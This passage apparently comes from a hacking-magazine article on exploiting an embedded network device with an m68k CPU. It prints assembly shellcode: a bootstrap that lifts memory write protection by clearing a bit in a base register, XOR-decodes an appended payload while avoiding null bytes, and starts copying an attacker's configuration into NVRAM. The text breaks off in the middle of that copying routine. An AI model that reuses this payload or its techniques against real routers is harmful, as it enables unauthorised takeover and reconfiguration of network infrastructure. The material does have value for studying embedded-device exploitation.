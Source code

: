 ```  
        | get address of the real code appended plus 0x0101 to  
	| prevent 0x00 bytes  
        lea     xor_code+0x0101(%pc),%a2  
        sub.a   #0x0101,%a2  
        | prepare the decode register (XOR pattern)  
        move.w  #0xD5D5,%d1  
  
decode_loop:  
	| Decode our main payload code and the config  
        eor.w   %d1,(%a2)+  
	| check for the termination flag (greetings to Bine)  
        cmpi.l  #0xCAFEF00D,(%a2)  
broken_branch:  
        | this used to be 'bne decode_loop' or 0x6600FFF6  
        .byte   0xCC,0x01,0xFF,0xF6  
  
xor_code:  
  
--- end bootstrap.s ---  
```  
You may assemble the code into an object file using:  
`linux# m68k-aout-as -m68360 -pic --pcrel -o bootstrap.o bootstrap.s`  
  
There are a few things to say about the code. Number one are the first two  
instructions. The CPU we are dealing with supports write protection for  
memory segments [4]. Information about the memory segments is stored in  
so-called "Base Registers", BR0 to BR7. These are mapped into memory at  
0x0FF00000 and later. The one we are interested in (BR7) is at 0x0FF010C2.  
Bit0 tells the CPU if this memory is valid and Bit1 if it's write  
protected, so the only thing we need to do is to shift the lower byte one  
Bit to the right. The write protection Bit is cleared and the valid Bit is  
still in place.  
  
The second thing of mild interest is the broken branch code, but the  
explaination in the source should make this clear: the OP code of "BNE"  
unfortunately is 0x6600. So we shift the whole first word one to the right  
and when the code runs, this is corrected.  
  
The third thing is the dummy move to d1. If the reader would refer back to  
the place we discussed the pointer exchange, he will notice that there is a  
"back" part in this operation: namely the stack address is written to our  
code plus 20 bytes (or 0x14). So we use a move operation that translates to  
the OP code of 0x223c01010101, located at offset 0x12 in our code. After  
the pointer exchange takes place, the 0x01010101 part is replaced by the  
pointer - which is then innocently moved to the d1 register and ignored.  
  
When this code completed execution, the appended XOR'd code and config  
should be in memory in all clear text/code. The only thing we have to do  
now is copy the config in the NVRAM. Here is the appropriate code to do  
this:  
```  
--- config_copy.s ---  
        .globl  _start  
_start:  
  
	| turn off interrupts  
        move.w	#0x2700,%sr;  
	move.l	#0x0FF010C2,%a1  
	move.w	#0x0001,(%a1)  
  
	| Get position of appended config and write it with delay  
	lea	config(%pc),%a2  
	move.l	#0x0E0002AE,%a1  
	move.l	#0x00000001,%d2  
  
```